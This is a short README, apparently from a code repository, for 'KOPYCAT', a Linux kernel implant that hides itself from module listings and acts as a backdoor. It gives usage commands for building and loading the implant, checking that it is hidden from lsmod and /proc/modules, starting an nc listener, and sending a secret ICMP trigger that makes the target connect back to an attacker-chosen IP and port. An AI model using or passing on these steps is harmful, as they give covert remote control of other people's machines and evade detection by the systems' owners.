 # 0

KOPYCAT - Linux Kernel module-less implant (backdoor)

# Usage

~~~
$ make
$ make trigger
$ sudo insmod kopycat.ko
insmod: ERROR: could not insert module kopycat.ko: Inappropriate ioctl for device
$ lsmod | grep kopycat
$ cat /proc/modules | grep kopycat
~~~

Launch `nc` listener:
~~~
$ nc -l 8087
~~~

Trigger the backdoor by sending ICMP packet with secret phrase:
~~~
$ sudo ./trigger <target_ip> <reversed_ip> <reversed_port>
~~~

# Author

[Ilya V. Matveychikov](https://github.com/milabs)

2021
